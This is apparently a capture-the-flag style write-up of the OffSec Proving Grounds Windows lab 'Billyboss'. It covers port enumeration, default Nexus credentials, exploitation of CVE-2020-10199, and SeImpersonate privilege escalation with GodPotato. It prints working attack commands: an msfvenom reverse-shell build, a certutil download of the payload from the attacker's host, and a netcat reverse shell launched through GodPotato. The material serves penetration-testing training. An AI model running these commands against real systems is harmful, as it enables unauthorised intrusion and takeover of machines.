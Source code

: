 # Billyboss

## Intro

Billyboss is a 'get to work' intermediate windows machine from offsec proving grounds.

## Enum  

Nmap scan of ports 0 - 15000.  

```
Host: 192.168.57.61 ()  Ports: 0/filtered/tcp//
21/open/tcp/ftp/Microsoft ftpd
80/open/tcp/http/Microsoft IIS httpd 10.0
135/open/tcp/msrpc/Microsoft Windows RPC
139/open/tcp/netbios-ssn/Microsoft Windows netbios-ssn
445/open/tcp/microsoft-ds?/
5040/open/tcp/unknown/
8081/open/tcp/http/Jetty 9.4.18.v20190429
```  

Nmap udp scan.  

```
137/netbios-ns
138/netbios-dgm
500/isakmp
1900/upnp
4500/nat-t-ike
5353/zeroconf
```  

Nmap stealth scan.  

```
21/ftp
80/http
135/msrpc
139/netbios-ssn
445/microsoft-ds
5040/unknown
8081/blackice-icecap
49664/
49665/
49666/
49667/
49668/
49669/
```

Enum smb services.  

`8081/tcp open  blackice-icecap`  

## UDP services.  

137 netbios-ns is a name service that supplies netbios names to the receiving machine.  
138 datagram exchange, non connection file sharing.  
500 is used by the Internet key exchange (IKE) that occurs during the establishment of secure VPN tunnels  
1900 Universal Plug N' Play (UPnP) devices to receive broadcasted messages from other UPnP devices  
4500 internet key exchange  
5353 zero-configuration protocol with dns-like commands.



## rpc  

Using rpcdump.py  

Protocols.  

```
MSDTC Connection Manager
EventLog Remoting Protocol 
Firewall and Advanced Security Protocol 
Remote Shutdown Protocol 
Security Account Manager (SAM) Remote Protocol 
Service Control Manager Remote Protocol
Task Scheduler Service Remoting Protocol
```  

Provider.  

```
BFE.DLL 
dhcpcsvc6.dll 
dhcpcsvc.dll 
FwRemoteSvr.dll 
IKEEXT.DLL 
iphlpsvc.dll 
MPSSVC.dll 
msdtcprx.dll 
nrpsrv.dll 
nsisvc.dll 
pcasvc.dll 
samsrv.dll 
schedsvc.dll 
services.exe 
srvsvc.dll 
ssdpsrv.dll 
sysmain.dll 
sysntfy.dll 
taskcomp.dll 
wbiosrvc.dll 
wevtsvc.dll 
wininit.exe 
winlogon.exe 
wscsvc.dll
```  

## http port 80  

This port has a service running on it called baGet, which is a lightweight nuGet server.  

## Nexus repository manager - port 8081  

Using the following username and password to authenticate.  

`nexus:nexus`  

Finding a rce python script on exploitDB with the following cve.  

`CVE-2020-10199`  

After testing the exploit with the ping command, which did work, I tried a powershell reverse shell which did not work. Looking at the error, I think it might be the parenthesis and brackets mangling. After trying the command in base 64 it still did not work. Trying a file upload.  

Creating a reverse shell exe.  

`msfvenom -p windows/shell_reverse_tcp LHOST=192.168.49.54 LPORT=21 -f exe > /home/kali/shell.exe`  

Getting the file from my local machine with the following command.  

`cmd.exe /c certutil.exe -f -urlcache -split http://192.168.49.54:8000/shell.exe c:/windows/temp/shell.exe`  

Executing the shell file with the following command, and getting a shell back.  

`cmd.exe /c c:/windows/temp/shell.exe`  

## PrivEsc  

Listing the users directory.  

```
Administrator
BaGet
nathan
```  

This build is vuln with GodPotato and seImpersonate token.  

`.\potato.exe -cmd 'c:\Users\nathan\Nexus\nexus-3.21.0-05\nc64.exe 192.168.45.167 80 -e cmd.exe'`

This would not run in windows temp folder only nathans folder, nc is used to keep the process from exiting.  

GodPotato can be found at.  

`https://github.com/BeichenDream/GodPotato`
